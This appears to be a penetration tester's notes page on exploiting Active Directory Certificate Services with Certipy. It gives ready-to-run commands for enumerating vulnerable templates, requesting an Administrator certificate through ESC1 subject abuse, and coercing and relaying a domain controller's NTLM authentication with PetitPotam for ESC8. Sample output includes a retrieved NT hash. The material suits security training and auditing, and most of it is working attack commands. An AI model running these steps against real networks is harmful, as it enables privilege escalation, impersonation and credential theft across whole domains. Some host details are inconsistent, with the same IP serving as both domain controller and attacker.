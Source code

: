 > Part of these notes are copied from the original [Github Certipy](https://github.com/ly4k/Certipy/wiki/05-%E2%80%90-Usage) repository.

**Active Directory Certificate Services (AD CS)** exploitation targets misconfigurations in enterprise certificate infrastructures to escalate privileges or impersonate users. By abusing vulnerable certificate templates or enrollment settings, attackers can obtain certificates for high-privileged accounts and authenticate as them using PKINIT. 

## Enumeration

The first step for exploiting ad cs is using `certipy find` to discover any vulnerable configurations, execute:

```shell
certipy find \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -vulnerable -enabled 
```

or

```bash
nxc ldap 10.0.0.100 -u 'attacker@corp.local' -p 'Passw0rd!' -M adcs
```

This will query LDAP for Certificate Templates and CA objects. The output (either to console or to a text file) will list all templates, their settings, and flag any misconfigurations. For example, part of the output might show:

```java
Certificate Authorities
 0
   CA Name                             : CORP-CA
   DNS Name                            : CA.CORP.LOCAL
   ...
   Web Enrollment
     HTTP
       Enabled                         : False
     HTTPS
       Enabled                         : True
       Channel Binding (EPA)           : False
   ...
   Permissions
     Access Rights
       ManageCa                        : CORP.LOCAL\Authenticated Users
       ManageCertificates              : CORP.LOCAL\Authenticated Users
       Read                            : CORP.LOCAL\Authenticated Users
       Enroll                          : CORP.LOCAL\Authenticated Users
   [+] User Enrollable Principals      : CORP.LOCAL\Authenticated Users
   [+] User ACL Principals             : CORP.LOCAL\Authenticated Users
   [!] Vulnerabilities
     ESC7                              : User has dangerous permissions.
     ESC8                              : Web Enrollment is enabled over HTTPS and Channel Binding is disabled.
Certificate Templates
  0
    Template Name                       : UserTemplate
    Display Name                        : UserTemplate
    Certificate Authorities             : CORP-CA
    Enabled                             : True
    Client Authentication               : True
    ...
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
    ...
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CORP.LOCAL\Domain Users
      Object Control Permissions
        Write Property Enroll           : CORP.LOCAL\Domain Users
    [+] User Enrollable Principals      : CORP.LOCAL\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

- This output shows the CA "CORP-CA" and a template "UserTemplate". The template has **Enrollee Supplies Subject** set to true, and **Client Authentication** is enabled. The permissions show that **Domain Users** can enroll for this template. The Template `[!] Vulnerabilities` section flags it as vulnerable to **ESC1**, while the CA `[!] Vulnerabilities` section shows **ESC7** and **ESC8**. Certipy's find would also list which users/groups have enrollment rights, etc.


---


## ESC1 Exploitation: Subject Alternative Name (SAN) Abuse

**Vulnerability:** A Certificate Template has the **`EnrolleeSuppliesSubject`** flag set, allowing any enrolling user to specify the **UPN** or **SID** of another user, leading to impersonation.

**1. Certificate Request and Impersonation (`req`)**

The low-privileged user requests a certificate using the vulnerable template, providing the UPN and SID of the high-privilege target (e.g., `Administrator`) in the request.

```bash
certipy req \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
-ca 'CORP-CA' -template 'UserTemplate' \
upn 'Administrator@corp.local' -sid 'S-1-5-21-...-500'
```


Here, `-ca 'CORP-CA'` specifies the CA name, and `-target 'CA.CORP.LOCAL'` the CA DNS name. We supply a _UPN_ of the target (Administrator) and the SID of the target. In an ESC1 scenario, this tricks the CA into issuing a certificate for Administrator to the low-priv user. If successful, Certipy will save the certificate and private key to a .pfx file:

```bash
[*] Requesting certificate via RPC
[*] Request ID is 1
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-...-500'
[*] Wrote certificate and private key to 'administrator.pfx'
```

- _(This matches the ESC1 exploitation example: the attacker "user" obtains a cert for Administrator)._

**2. Authenticate as Administrator**

- Now, the `administrator.pfx` can be used with `certipy auth` to access ad admin:
```bash
certipy auth -pfx 'administrator.pfx' -dc-ip '10.0.0.100'
```

Certipy will load the PFX, perform PKINIT to get a Kerberos TGT for Administrator, and even attempt to retrieve the NTLM hash:

```bash
[*] Certificate identities:
    SAN UPN: 'Administrator@corp.local'
    Security Extension SID: 'S-1-5-21-...-500'
[*] Using principal: 'Administrator@corp.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Wrote credential cache to 'Administrator.ccache'
[*] Trying to retrieve NT hash for 'Administrator'
[*] Got hash for 'Administrator@corp.local':
    aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```


---

## ESC8 Exploitation: Web Enrollment + PetitPotam Relay

**Vulnerability:** The Certificate Authority (CA) has **Web Enrollment enabled over HTTPS**, but **Channel Binding (EPA)** is disabled. This allows NTLM relay attacks via HTTP endpoints, such as using **PetitPotam** to coerce authentication and relay it to the CA's Web Enrollment service.

**1. Triggering NTLM Authentication via PetitPotam**

PetitPotam abuses MS-EFSRPC to force a machine (typically a Domain Controller) to authenticate to an attacker-controlled endpoint. This coerced NTLM authentication can then be relayed to the CA's Web Enrollment service.

```bash
python PetitPotam.py 10.0.0.101 10.0.0.100
```

- `10.0.0.101`: Target machine to coerce (e.g., Domain Controller)
- `10.0.0.100`: Attacker-controlled machine (where the relay will occur)

**2. Relaying to the CA's Web Enrollment Service**

Once the NTLM authentication is coerced, it can be relayed to the CA using Certipy's relay module. The goal is to request a certificate for a high-privileged identity (e.g., Domain Controller) using a vulnerable template.

```bash
certipy-ad relay -target <dns_name> -template "DomainController"
```

- `-target scert.acc10.cat`: DNS name of the CA
- `-template "DomainController"`: Vulnerable certificate template that allows enrollment by Domain Controllers

If successful, Certipy will issue a certificate and save it as a `.pfx` file (e.g., `dc01.pfx`).

**3. Authenticating with the Relayed Certificate**

Once the `.pfx` file is obtained, it can be used to authenticate as the relayed identity (e.g., Domain Controller) using Certipy:

```bash
certipy-ad auth -pfx dc01.pfx
```

Or with additional options to interact with LDAP:

```bash
certipy-ad auth -pfx dc01.pfx -dc-ip 10.0.0.100 -ldap-shell
```
